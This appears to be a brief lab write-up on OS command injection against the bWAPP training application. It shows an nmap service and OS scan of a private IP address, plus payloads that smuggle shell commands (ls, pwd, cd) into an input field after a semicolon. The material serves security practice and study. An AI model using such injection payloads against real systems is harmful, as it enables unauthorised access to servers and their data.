 # OS Command Injection
![alt text](image-10.png)

#### **Process:**
```plaintext
-----------------------------------------------------
1. Here we can directly check the Linux os command as we know bwapp server is 
running on linux
2. Or we can check its os via nmap .

```
#### **nmap**
```terminal
nmap -sV -O 192.168.56.101 -T4

```
#### **Payloads:**

```terminal
www.nsa.gov; ls
www.nsa.gov; pwd
www.nsa.gov; cd /directory

```

![alt text](image-11.png)